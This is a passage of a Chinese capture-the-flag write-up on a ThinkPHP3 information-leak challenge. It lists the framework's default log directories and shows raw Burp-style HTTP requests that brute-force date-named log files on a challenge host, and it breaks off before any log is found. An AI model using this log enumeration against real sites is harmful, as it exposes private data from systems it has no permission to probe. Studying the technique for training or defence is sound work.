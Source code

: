 **默认情况下只是在调试模式记录日志，要在部署模式开启日志记录**，必须在配置中开启`LOG_RECORD`参数，以及可以在应用配置文件中配置需要记录的日志级别，例如：

```php
'LOG_RECORD' => true, // 开启日志记录
'LOG_LEVEL'  =>'EMERG,ALERT,CRIT,ERR', // 只记录EMERG ALERT CRIT ERR 错误
```

**ThinkPHP3日志目录**：

- /Runtime/Logs/
- /App/Runtime/Logs/
- /Application/Runtime/Logs/Admin/
- /Application/Runtime/Logs/Home/
- /Application/Runtime/Logs/

- 日志格式为：`/App/Runtime/Logs/21_05_17.log`

TP5有所不同，这里不提

回归主题：找到泄露的敏感信息（日志目录，日志文件）

尝试上面列举的日志目录，看是哪一类

如果是不符合的目录，tp框架似乎没有反应

![12](https://the0n3.top/medias/show-think/12.png)

在试到`/Application/Runtime/Logs/Admin/`和`/Application/Runtime/Logs/Home/`类型时，页面提示`403`，说明存在，尝试访问日志`24_01_01.log`时，页面又变成之前没有反应的样子了，说明这个日志不存在，bp爆破出存在的日志，多爆几年也没什么(展示容错)，从24年开始试

![13](https://the0n3.top/medias/show-think/13.png)

![14](https://the0n3.top/medias/show-think/14.png)

```plaintext
GET /Application/Runtime/Logs/Admin/§24_01_01§.log HTTP/1.1
Host: 19862dcf-d6d6-466c-a486-2836bd3ee425.challenge.ctf.show
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

![15](https://the0n3.top/medias/show-think/15.png)

爆破返回数据长度都一样，24年没有日志，往前试。闹麻了，爆了5年都没有，尝试下`/Application/Runtime/Logs/Home/`目录下的日志

```plaintext
GET /Application/Runtime/Logs/Home/§24_01_01§.log HTTP/1.1
Host: 19862dcf-d6d6-466c-a486-2836bd3ee425.challenge.ctf.show
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```
